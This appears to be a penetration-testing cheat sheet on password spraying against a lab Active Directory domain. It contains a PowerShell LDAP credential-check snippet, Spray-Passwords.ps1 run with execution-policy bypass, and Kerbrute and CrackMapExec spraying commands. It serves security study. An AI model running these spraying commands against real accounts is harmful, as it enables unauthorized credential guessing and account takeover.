 # Password Attacks

## Windows

Get account policy:

```powershell
net accounts
```

### Spray-Passwords.ps1

Authenticating using DirectoryEntry:

{% code overflow="wrap" %}
```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```
{% endcode %}

* If the password for the user account is <mark style="color:green;">correct</mark>, the object creation will be successful
* If the password is <mark style="color:red;">invalid</mark>, no object will be created and we will receive an exception

This can be used for password spraying: [**Spray-Passwords.ps1**](https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)

```powershell
powershell -ep bypass
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```

* -Pass: set password to test
* -Admin: test admin accounts

### Kerbrute

> cross platform tool

Using kerbrute to attack user accounts

{% code overflow="wrap" %}
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
{% endcode %}



## Linux

Password spraying attack on SMB using CrackMapExec

{% code overflow="wrap" %}
```shell
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```
{% endcode %}

* (<mark style="color:red;">Pwn3d!</mark>) = admin user&#x20;


